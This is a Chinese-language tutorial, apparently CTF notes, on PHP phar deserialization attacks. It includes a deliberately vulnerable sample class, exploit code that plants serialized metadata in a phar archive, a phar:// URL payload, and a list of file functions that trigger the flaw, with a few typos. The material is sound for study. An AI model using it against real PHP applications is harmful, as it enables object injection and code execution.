 ```
php://stdout - 用于向标准输出写入数据
php://stderr - 用于向标准错误输出写入数据
## 后端phar的使用流程：
```
<?php
\$phar = new Phar("a.phar");   //文件名
\$phar->startBuffering();//启动Phar缓冲区，用于在创建或修改Phar存档时将文件内容写入缓冲区而不立即写入磁盘
/*设置结尾以<?php __HALT__COMPILER();?>结尾。"<?php __HALT_COMPILER();?>"是一个特殊的PHP标记，它告诉PHP解释器在这里停止解析代码*/
\$phar->setStub("<?php __HALT_COMPILER();?>");//添加要压缩的文件
\$phar->addFromString("test.txt","contents");
\$phar->stopBuffering();
?>
```
主文件：
```
<?php
echo file_get_contents('phar://a.phar/test.txt');//用file_get_contents文件操作函数，phar流包装器读取文件a.phar/test.txt的内容
?>
若代码为：
<?php
    class Test{
        public $num=2;
        public function __destruct()
        {
          if($this->num===1){
              echo 'flag{sss}';
          }   // TODO: Implement __destruct() method.
        }
    }
    echo file_get_contents($_GET['path']);
?>
```

则可以生成特殊的phar文件：
```
<?php
class Test{
    public \$num=2;
}

\$test= new Test();
\$phar = new Phar("a.phar");   //文件名
\$phar->startBuffering();//启动Phar缓冲区，用于在创建或修改Phar存档时将文件内容写入缓冲区而不立即写入磁盘
//设置结尾以<?php __HALT__COMPILER();?>结尾。"<?php __HALT_COMPILER();?>"是一个特殊的PHP标记，它告诉PHP解释器在这里停止解析代码*/
\$phar->setStub("<?php __HALT_COMPILER();?>");

\$phar->setMetadata($test);  //设置自定义内容，序列化存储

/*添加要压缩的文件*/
\$phar->addFromString("test.txt","contents");
\$phar->stopBuffering();
?>
```

然后在URL中引用上传文件路径即可：
``?path=’phar://a.phar/test.txt’``

可操作性：若后端代码有__destruct(),__wakeup()魔术方法就会因为触发
受文件操作影响相关函数：
```
fileatime/filectime/filemtime
stat/filenode/fileowner/filegroup/fileperms
file/file_get_contents/readfile/fopen
file_exists/is_dir/is_excutable/is_file/is_link/is_readable/is_writeable